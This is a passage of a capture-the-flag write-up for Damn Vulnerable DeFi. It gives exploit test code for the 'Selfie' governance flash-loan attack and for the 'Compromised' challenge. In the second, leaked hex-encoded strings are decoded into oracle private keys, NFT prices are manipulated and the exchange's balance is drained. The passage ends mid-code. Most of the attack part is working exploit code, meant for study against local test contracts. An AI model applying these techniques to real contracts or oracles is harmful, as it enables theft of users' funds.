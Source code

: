 Solution (challenge):

```javascript
it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        const SelfieExploitFactory = await ethers.getContractFactory('SelfieExploit', deployer);
        const deployedContract = await SelfieExploitFactory.deploy(
            this.pool.address,
            this.governance.address,
            this.token.address,
            attacker.address
        );
        const exploit = deployedContract.connect(attacker)
        await exploit.attack()

        await ethers.provider.send("evm_increaseTime", [2 * 24 * 60 * 60]); // 2 days
        const actionId = (await exploit.actionId()).toNumber()
        await this.governance.connect(attacker).executeAction(actionId)
    });
```

## 7. Compromised

The idea is to convert the both retrieved strings into private keys hexstrings. To do that, it is necessary to decode in base64. The two strings are the private keys from 2 trusted reporters addresses: `"0xe92401A4d3af5E446d93D11EEc806b1462b39D15"` and `"0x81A5D6E50C214044bE44cA0CB057fe119097850c"`. With the private keys, wallet accounts can be created and they can be used to set the NFT prices, and with that the exchange balance can be drained.

Solution (challenge):

```javascript
it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        const hexString1Raw = "4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35"
        const hexString2Raw = "4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34"
        const base64String1 = Buffer.from(hexString1Raw.split(' ').join(''), 'hex').toString('utf8')
        const base64String2 = Buffer.from(hexString2Raw.split(' ').join(''), 'hex').toString('utf8')
        const privateKey1 = Buffer.from(base64String1, 'base64').toString('utf8')
        const privateKey2 = Buffer.from(base64String2, 'base64').toString('utf8')

        const wallet1 = new ethers.Wallet(privateKey1, ethers.provider)
        const wallet2 = new ethers.Wallet(privateKey2, ethers.provider)

        await this.oracle.connect(wallet1).postPrice("DVNFT", 0)
        await this.oracle.connect(wallet2).postPrice("DVNFT", 0)

        const tokenId = (await this.exchange.connect(attacker).callStatic.buyOne({ value: 1 })).toNumber()
        // const tokenId = 0
        await this.exchange.connect(attacker).buyOne({ value: 1 })

        const exchangeBalance = await ethers.provider.getBalance(this.exchange.address)

        await this.oracle.connect(wallet1).postPrice("DVNFT", exchangeBalance)
        await this.oracle.connect(wallet2).postPrice("DVNFT", exchangeBalance)

        await this.nftToken.connect(attacker).approve(this.exchange.address, tokenId)
        await this.exchange.connect(attacker).sellOne(tokenId)
```